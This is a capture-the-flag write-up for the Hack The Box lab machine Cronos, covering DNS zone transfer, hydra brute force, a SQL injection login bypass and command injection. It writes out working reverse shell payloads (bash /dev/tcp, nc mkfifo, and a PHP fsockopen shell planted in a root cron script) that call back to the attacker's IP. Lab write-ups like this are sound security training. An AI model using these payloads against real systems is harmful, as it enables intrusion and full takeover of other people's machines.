


# Cronos: 10.10.10.13

## Hints

- DNS can be useful when it seems nothing else is available
- The web app is Laravel which usually uses a database for authentication
- Privesc is all about the usual tools and checking for easy issues

## nmap

Starting with the usual `nmap` scan. Interesting ports:

```none
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

## 80: Recon

Browsing to port 80 using the IP shows the Apache landing page. Browsing to `cronos.htb` displays a website with barely any info and links to only external websites.



Since we are not getting much from the website, and that DNS is on the server - had a poke around the service. My DNS pentesting skills are still evolving - so I used the [HackTricks Pentesting DNS](https://book.hacktricks.xyz/pentesting/pentesting-dns) page for some advice. Trying a zone transfer yeilded a couple addiontinal domain names.

```none
└─$ dig axfr @10.10.10.13 cronos.htb                                                                  

; <<>> DiG 9.16.15-Debian <<>> axfr @10.10.10.13 cronos.htb
; (1 server found)
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 32 msec
;; SERVER: 10.10.10.13#53(10.10.10.13)
;; WHEN: Sat Jul 03 16:07:50 NZST 2021
;; XFR size: 7 records (messages 1, bytes 203)
```

The `www` prefix redirects to the same Cronos homepage. The `ns1` prefix just shows the Apache default page. However, the `admin` prefix shows another new website with a login.



Tried a few common passwords but no luck. It makes it hard to try guess (or hydra) login credentials when the error message does not state if it is the username or password that is incorrect. The generic error message for the login is:

```none
Your Login Name or Password is invalid
```

Guessing the username was probably `admin` - based on previous HTB experience. Didn't think there was much chance of getting any credentials - but had no other enumeration running against the box so decided to run `hydra` against the login form.

```none
hydra -l admin -P /usr/share/wordlists/rockyou.txt admin.cronos.htb http-post-form "/:username=^USER^&password=^PASS^:F=Your Login Name or Password is invalid"
```

With nothing else to try enumerate, went back to the admin panel to try some more login attempts. Think my brain was not working becuase it took about 10 minutes before I thought of SQL injection. I hadn't used it for so long - that I think it was off my radar. The SQLi vulnerability was pretty bad, and almost any SQLi parload worked. The simplest example:

```none
' -- 
```

Make sure to note the space after the double dash (`--`) comment - this is essential. After loggin in, we are presented with a "Net Tool" which looks like a prime target for command injection.


## Getting a Shell

The easiest method to trying command injection is to use Burp. I intercepted the request and sent it to Repeater. Tried a few different payloads and all of them were working, without much manipulation of the input. Couple of working examples are listed below:

```none
command=traceroute&host=8.8.8.8;whoami
command=traceroute&host=8.8.8.8|whoami
command=whoami
```

Tried the common bash reverse shell, but it didn't work.

```none
command=bash -i >& /dev/tcp/10.10.14.56/9001 0>&1
```

Second try was using `nc` which I checked existance of on the target machine with `which nc`. Then used the following payload:

```none
command=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.56 9001 >/tmp/f
```

Remember to URL encode for best results!

## Flag: User

The end result of the last section was access as the `www-data` user. And access to the user flag.

```none
└─$ nc -lvnp 9001                                 
listening on [any] 9001 ...
connect to [10.10.14.56] from (UNKNOWN) [10.10.10.13] 37816
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ ls -l /home
total 4
drwxr-xr-x 4 noulis noulis 4096 Apr  9  2017 noulis
$ wc -c /home/noulis/user.txt
33 /home/noulis/user.txt
```

## Privesc

Ran `linpeas.sh` on the server under the `www-data` user. This found a crontab entry - which seemed suitable given the name of the box.

```none
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

And ... we have write access on this file!

```none
www-data@cronos:/dev/shm$ ls -l /var/www/laravel/artisan
-rwxr-xr-x 1 www-data www-data 1646 Apr  9  2017 /var/www/laravel/artisan
```

I have been using GTFOBins a lot lately. Found a suitable [PHP Reverse Shell](https://gtfobins.github.io/gtfobins/php/#reverse-shell). For these types of payloads - I am starting to try write one-lines that are suitable for use in Bash. This means I can easily reuse them. The idea - overwrite the `artisan` file with the reverse shell.

```none
echo '<?php $sock=fsockopen("10.10.14.56",9002);exec("/bin/sh -i <&3 >&3 2>&3"); ?>' > /var/www/laravel/artisan
```

Wait for the up to 1 minute. You can always check the time using the `date` command. The script should execute on the minute, every minute.

```none
└─$ nc -lvnp 9002                                                                                               1 ⨯
listening on [any] 9002 ...
connect to [10.10.14.56] from (UNKNOWN) [10.10.10.13] 50030
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
```

## Flag: Root

With a shell as the `root` - just grab the flag from the usual place:

```none
wc -c /root/root.txt
```

## Lessons Learned

- Remember all options for attacking web forms - Hydra is not to only option!
- Not really much else to say - think this box was an easy medium

## Useful Resources

- [HackTheBox Cronos - ippsec](https://www.youtube.com/watch?v=CYeVUmOar3I)
- [Hack The Box — Cronos Writeup w/o Metasploit by Rana Khalil](https://medium.com/swlh/hack-the-box-cronos-writeup-w-o-metasploit-7b9453e557d0)
- [HTB: Cronos by 0xdf](https://0xdf.gitlab.io/2020/04/14/htb-cronos.html)
